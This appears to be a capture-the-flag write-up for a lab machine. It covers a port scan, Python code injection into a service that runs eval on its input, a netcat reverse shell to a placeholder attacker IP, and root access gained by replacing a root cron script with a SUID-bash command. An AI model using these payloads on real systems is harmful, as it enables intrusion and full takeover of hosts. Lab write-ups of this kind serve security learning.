







# Port Scanning
```bash
❯ rustscan -a 10.48.144.119 -- -A

Open 10.48.144.119:22
Open 10.48.144.119:10000

PORT      STATE SERVICE           REASON         VERSION
22/tcp    open  ssh               syn-ack ttl 62 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 78:c4:40:84:f4:42:13:8e:79:f8:6b:e4:6d:bf:d4:46 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDeAB1tAGCfeGkiBXodMGeCc6prI2xaWz/fNRhwusVEujBTQ1BdY3BqPHNf1JLGhqts1anfY9ydt0N1cdAEv3L16vH2cis+34jyek3d+TVp+oBLztNWY5Yfcv/3uRcy5yyZsKjMz+wyribpEFlbpvscrVYfI2Crtm5CgcaSwqDDtc1doeABJ9t3iSv+7MKBdWJ9N3xd/oTfI0fEOdIp8M568A1/CJEQINFPVu1txC/HTiY4jmVkNf6+JyJfFqshRMpFq2YmUi6GulwzWQONmbTyxqrZg2y+y2q1AuFeritRg9vvkBInW0x18FS8KLdy5ohoXgeoWsznpR1J/BzkNfap
|   256 25:9d:f3:29:a2:62:4b:24:f2:83:36:cf:a7:75:bb:66 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDGGFFv4aQm/+j6R2Vsg96zpBowtu0/pkUxksqjTqKhAFtHla6LE0BRJtSYgmm8+ItlKHjJX8DNYylnNDG+Ol/U=
|   256 e7:a0:07:b0:b9:cb:74:e9:d6:16:7d:7a:67:fe:c1:1d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMbypBoQ33EbivAc05LqKzxLsJrTgXOrXG7qG/RoO30K
10000/tcp open  snet-sensor-mgmt? syn-ack ttl 62
| fingerprint-strings: 
|   GenericLines: 
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 0
|     SyntaxError: unexpected EOF while parsing
|   GetRequest: 
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 1, in <module>
|     NameError: name 'GET' is not defined
|   HTTPOptions, RTSPRequest: 
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 1, in <module>
|     NameError: name 'OPTIONS' is not defined
|   NULL: 
|     Private 0days
|_    Please enther number of exploits to send??:
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.8 - 3.16 (96%), Linux 3.10 - 3.13 (96%), Linux 3.13 (96%), Linux 4.4 (96%), Linux 5.4 (94%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%), Android 6.0 - 9.0 (Linux 3.18 - 4.4) (92%), Android 7.1.1 - 7.1.2 (92%)
```
I used `nc` to connect to the port. And did the following. <br/>
<br/>
Then I tried the following:
```bash
__import__('os').system('whoami')
__import__('os').system('ls -la')
```
 <br/>
And finaly using the following I got the shell. 
```bash
__import__('os').system('nc -e /bin/sh <attacker_ip> 4545')
```
 <br/>
 <br/>
# Privilege Escalation
Looking at the cron jobs I found this script is running by root. <br/>
 <br/>
I found `root.sh` in the home directory. And checked its content. <br/>
 <br/>
Only root has the write permission. <br/>
 <br/>
But the home directory user king has all permission. So I deleted the `root.sh` and then added there the following line. 
```bash
echo 'chmod u+s /bin/bash' > root.sh 
```
After that I became ROOT.  <br/>
 <br/>